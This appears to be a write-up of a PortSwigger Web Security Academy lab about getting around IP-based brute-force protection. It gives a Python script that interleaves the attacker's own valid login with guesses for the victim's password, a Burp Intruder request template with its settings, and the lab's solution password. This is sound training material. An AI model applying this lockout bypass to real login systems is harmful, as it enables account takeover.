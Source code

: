 
# Lab: Broken brute-force protection, IP block

## Lab
This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

- Your credentials: wiener:peter
- Victim's username: carlos
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Hint 
Advanced users may want to solve this lab by using a macro or the Turbo Intruder extension. However, it is possible to solve the lab without using these advanced features.

## Solution

To solve this lab, we have to login with carlos's password.

Lab gave us a account is `wiener:peter`

After fuzzing we know that application only allows login incorrect 3 times, after third login if we continue to login incorrect, our IP will be block. To unblock that IP we just login correct 1 time with the account was given by lab.

That's the idea to brute-force the password of victim `carlos`.
Frist step is make files containing username and password.
```Python
usrname = open('../shortlist/usernames.txt', 'r')
new_usrname = open('usernames.txt', 'w')
for word in usrname:
    new_usrname.write('carlos\n')
    new_usrname.write('wiener\n')

passwds = open('../shortlist/passwords.txt', 'r')
new_passwds = open('passwords.txt', 'w')
for word in passwds:
    new_passwds.write(word)
    new_passwds.write('peter\n')
```

Accessing the login page of application, login with any username and password to intercept this request in Burp Suite then send it to Intruder tab to modify the username and password are requested.

- clear the payload marker old
- add a new payload marker in username and password

like this:
```HTTP
POST /login HTTP/1.1
Host: 0a590000041e7158c14f2168000b0066.web-security-academy.net
Cookie: session=mJuSc6kg5gU1Y4gWZ1F6hHQDVIuQdF6C
Content-Length: 21
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a590000041e7158c14f2168000b0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a590000041e7158c14f2168000b0066.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=§a§&password=§a§
```

- Attack type is Pitchfork because each item in 2 payload set is aligned with each other.
- In payload set 1, payload type is simple list, then load file username was created above(`usernames.txt`).
- In payload set 2, payload type is simple list, then load file password was created above(`passwords.txt`).
- Then we create new resource pool with maximum current request is 1
- The last, in the Options tab we grep string `Your username is`

Start attack and check response in the `Your username is` column: which row returns 1 in `Your username is` column is the valid request. check in this request to take password of carlos.

Login application with `carlos:daniel` to solve this lab.